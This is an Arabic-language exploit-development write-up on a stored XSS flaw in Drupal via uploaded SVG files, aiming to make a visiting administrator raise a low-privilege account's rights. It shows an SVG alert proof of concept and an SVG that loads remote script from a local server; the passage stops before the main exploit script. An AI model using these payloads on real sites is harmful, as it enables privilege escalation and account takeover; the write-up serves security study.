 

<br><br>
> <html><body><b><p style="color:#A52A2A;font-size:25px">Exploit Development:</p></b></body></html>

زي ماقلت لكم فوق, هنا من قبل أفكر بأي شي ثاني عرفت إنه عن طريق الـ

XSS

عندنا القدرة نسوي أي آكشن ممكن يسويه الآدمن بمجرد زيارته للملف, عاد لكم أن تتخيلون كمية الآكشنز الموجودة بمشروع ضخم مثل دروبال

`ALERT IS NOT AN EXPLOITATION, it's nothing but a basic POC.`

طيب هنا فيه خيارات كثير جدا ممكن نسويها لكن أنا إخترت بكل بساطة نسجل حساب بصلاحيات محدودة وعن طريق الثغرة نجعل الآدمن يرفع صلاحيات الحساب إلى أعلى شي ممكن.

<br><br>
> <html><body><b><p style="color:#A52A2A;font-size:25px">Triggering the vulnerability (Basic POC):</p></b></body></html>

قبل كل شي نبدأ بأبسط شي ممكن والهدف منه التأكد من وجود الثغرة ومن هناك نبدأ بكتابة الإستغلال:

```python
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(911);
  </script>
</svg>
```

النتيجة:

![](../../posts_pics/Basic_POC.png)


  
<br><br>
> <html><body><b><p style="color:#A52A2A;font-size:25px">Uploading SVG File Using Python:</p></b></body></html>

بسم الله نبدأ بكتابة الإستغلال, فالبداية محتوى الملف إيش راح يكون؟ بكل بساطة أنا حطيت الإستغلال بملف

JavaScript

وإستخدمت 

xlink:href attribute

لتعريف محتوى الملف الخارجي اللي في هالحالة راح يكون موجود على.

http://127.0.0.1:8000/exploit.js

```python

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <script xlink:href="http://127.0.0.1:8000/exploit.js"/>
</svg>

```
